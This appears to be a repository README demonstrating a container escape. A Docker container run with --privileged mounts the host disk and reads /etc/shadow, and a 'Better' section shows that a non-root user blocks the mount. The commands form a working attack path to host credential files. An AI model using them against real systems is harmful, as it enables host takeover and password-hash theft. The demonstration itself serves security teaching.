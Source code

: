 # privileged

An exmaple of doing a bad thing to an unsecured container.

## Bad thing

```shell
cd ~/git/privileged
lsblk -io KNAME,TYPE,SIZE,MODEL # to find device name
docker build -t privileged:latest .
docker run --rm -it --privileged privileged:latest bash
mount /dev/sdc /mnt/gotcha
cd /mnt/gotcha
ls -l

cat /mnt/gotcha/etc/shadow
```

## Better

Uncomment the new user creation in `Dockerfile`, then

```shell
docker build -t privileged:latest .
docker run --rm -it --privileged privileged:latest bash
mount /dev/sdc /mnt/gotcha
whoami
```
